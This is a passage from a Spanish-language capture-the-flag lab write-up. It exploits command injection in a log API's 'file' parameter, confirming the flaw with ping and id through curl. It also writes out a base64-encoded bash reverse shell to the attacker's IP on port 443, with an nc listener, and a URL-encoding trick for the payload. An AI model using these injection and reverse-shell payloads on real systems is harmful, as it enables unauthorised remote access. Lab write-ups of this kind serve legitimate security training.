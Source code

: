![](2022-06-28-23-08-00.png)

Vemos que efectivamente conseguimos que nos haga un ping


echo "bash -c 'bash -i >& /dev/tcp/10.10.14.9/443 0>&1'" | base64

YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45LzQ0MyAwPiYxJwo=

nc -nlvp 443

 ⚠️ Because + represents an encoded space, to insert a literal + character,
you should encode this as %2b.

;YmFzaCAtYyAnYmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC45LzQ0MyAwPiYxJwo=

![](2022-06-28-23-20-28.png)

Hemos visto que funciona, vamos a hacer la misma petición desde curl escuchando por icmp
Con sudo tcpdump -ni tun0 icmp parece que vemos desde la propia consola que lanzamos el curl.

```bash

sudo tcpdump -ni tun0 icmp

curl -s 'http://10.10.11.120/api/logs?file=;ping+-c+1+10.10.14.9' -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJf[spoiler]]yNjczfQ.g933JnjdcSRXs2AbDjrkUOsgDjPMjQDL3-MMvMTVMCs" | jq -r 

![](2022-06-29-09-02-52.png)


Hacemos una pequeña comprobación con /dev/null;id que sabemos que debe de funcionar.
```bash
curl -s -G 'http://10.10.11.120/api/logs' --data-urlencode 'file=/dev/null;id' -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2[spoiler]]NjU2NDQyNjczfQ.g933JnjdcSRXs2AbDjrkUOsgDjPMjQDL3-MMvMTVMCs" | jq -r
```
